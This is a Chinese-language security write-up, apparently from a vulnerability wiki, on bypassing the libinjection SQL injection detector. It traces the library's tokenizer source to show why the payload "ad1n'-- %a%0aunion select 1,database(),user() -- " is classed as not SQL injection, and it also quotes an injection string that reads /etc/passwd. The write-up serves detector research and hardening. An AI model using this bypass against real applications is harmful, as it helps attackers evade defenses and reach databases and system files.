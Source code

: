 Libinjection 语义分析通用绕过
=============================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

源码下载地址 `https://github.com/client9/libinjection`

> example.c

    #include <stdio.h>
    #include <strings.h>
    #include <errno.h>
    #include "libinjection.h"
    #include "libinjection_sqli.h"

    int main(int argc, const char* argv[])
    {
        struct libinjection_sqli_state state;
        int issqli;

        const char* input = argv[1];
        size_t slen = strlen(input);

        /* in real-world, you would url-decode the input, etc */

        libinjection_sqli_init(&state, input, slen, FLAG_NONE);
        issqli = libinjection_is_sqli(&state);
        if (issqli) {
            fprintf(stderr, "sqli detected with fingerprint of '%s'\n", state.fingerprint);
        }
        return issqli;
    }
    $ gcc -Wall -Wextra examples.c libinjection_sqli.c
    $ ./a.out "-1' and 1=1 union/* foo */select load_file('/etc/passwd')--"
    sqli detected with fingerprint of 's&1UE'

**首先给一个pyload**

    # ./bin "ad1n'-- %a%0aunion select 1,database(),user() -- " 
    not sqli 
    #

测试payload 是否OK

![1.png](resource/Libinjection语义分析通用绕过/media/rId24.png)

为什么会这样呢???

首先打开源码吧

如果对这个语义分析不太了解的吧，可以去百度上可以找到很多分析的文章这里就不过多阐述了

下图是一个运行的一个流程图

![2.png](resource/Libinjection语义分析通用绕过/media/rId25.png)

### 它内部分为四种模式

    1. 无符号 标准SQL 模式 
    2. 无符号 MySQL模式 
    3. 单引号 标准SQL 模式 
    4. 单引号 MySQL 模式 
    5. 双引号 MySQL 模式

然后上面是一个单引号的标准SQL 的匹配他的一个核心点在于如下 函数libinjection\_sqli\_tokenize
作为一个转换内部字符的一个入口

    int libinjection_sqli_tokenize(struct libinjection_sqli_state * sf)
    {
        pt2Function fnptr;
        size_t *pos = &sf->pos;
        stoken_t *current = sf->current;
        const char *s = sf->s;
        const size_t slen = sf->slen;
        if (slen == 0) {
            return FALSE;
        }
    ​
        //初始化
        st_clear(current);
        sf->current = current;
    ​
        if (*pos == 0 && (sf->flags & (FLAG_QUOTE_SINGLE | FLAG_QUOTE_DOUBLE))) {
            *pos = parse_string_core(s, slen, 0, current, flag2delim(sf->flags), 0);
            printf("单引号双引号进入");
            sf->stats_tokens += 1;
            return TRUE;
        }
    ​
        while (*pos < slen) {
    ​
            /*
             * get current character
             */
            const unsigned char ch = (unsigned char) (s[*pos]);
            /*
             * look up the parser, and call it
             *
             * Porting Note: this is mapping of char to function
             *   charparsers[ch]()
             */
            fnptr = char_parse_map[ch];
            *pos = (*fnptr) (sf);
            if (current->type != CHAR_NULL) {
                sf->stats_tokens += 1;
                return TRUE;
            }
        }
        return FALSE;
    }

为什么`# "ad1n'-- %a%0aunion select 1,database(),user() -- "`
这么一个简单的可以绕过呢。

首先他是吧 `admi'` 先进入无符号的标准SQL 然后发现有一个\' 后面就转到
单引号的标准SQL

单引号标准SQL 首先获取的`admn'` 然后break

继续到了下一层碰到了一个 - 那么走到parse\_dash函数中

    static size_t parse_dash(struct libinjection_sqli_state * sf)
    {
        const char *cs = sf->s;
        const size_t slen = sf->slen;
        size_t pos = sf->pos;
    ​
        if (pos + 2 < slen && cs[pos + 1] == '-' && char_is_white(cs[pos+2]) ) {
            return parse_eol_comment(sf);
        } else if (pos +2 == slen && cs[pos + 1] == '-') {
            return parse_eol_comment(sf);
        } else if (pos + 1 < slen && cs[pos + 1] == '-' && (sf->flags & FLAG_SQL_ANSI)) {
            sf->stats_comment_ddx += 1;
            return parse_eol_comment(sf);
        } else {
            st_assign_char(sf->current, TYPE_OPERATOR, pos, 1, '-');
            return pos + 1;
        }
    }

然后当前的pos 一定是符合第一个判断条件的。继续跟踪parse\_eol\_comment
函数

    static size_t parse_eol_comment(struct libinjection_sqli_state * sf)
    {
        const char *cs = sf->s;
        const size_t slen = sf->slen;
        size_t pos = sf->pos;
        
        const char *endpos =(const char *) memchr((const void *) (cs + pos), '\n', slen - pos);
        if (endpos == NULL) {
            st_assign(sf->current, TYPE_COMMENT, pos, slen - pos, cs + pos);
            return slen;
        } else {
            st_assign(sf->current, TYPE_COMMENT, pos, (size_t)(endpos - cs) - pos, cs + pos);
            return (size_t)((endpos - cs) + 1);
        }
    }

这里只是判断了是否是有\\n 这个。然后就直接进入到st\_assign
函数中。继续跟踪st\_assign 函数

    static void st_assign(stoken_t * st, const char stype,size_t pos, size_t len, const char* value)
    {
        const size_t MSIZE = LIBINJECTION_SQLI_TOKEN_SIZE;
        size_t last = len < MSIZE ? len : (MSIZE - 1);
        st->type = (char) stype;
        st->pos = pos;
        st->len = last;
        memcpy(st->val, value, last);
        st->val[last] = CHAR_NULL;
    }

当前函数也是只是赋值了一下val然后就可以做任何操作。

最后就是 `admin'` 转换成了S

\-- 因为没有查询到直接是C

最后得到的匹配规则为SC 。此匹配规则不在数据库中。完成了绕过。

附一张调试打印图

![3.png](resource/Libinjection语义分析通用绕过/media/rId27.png)

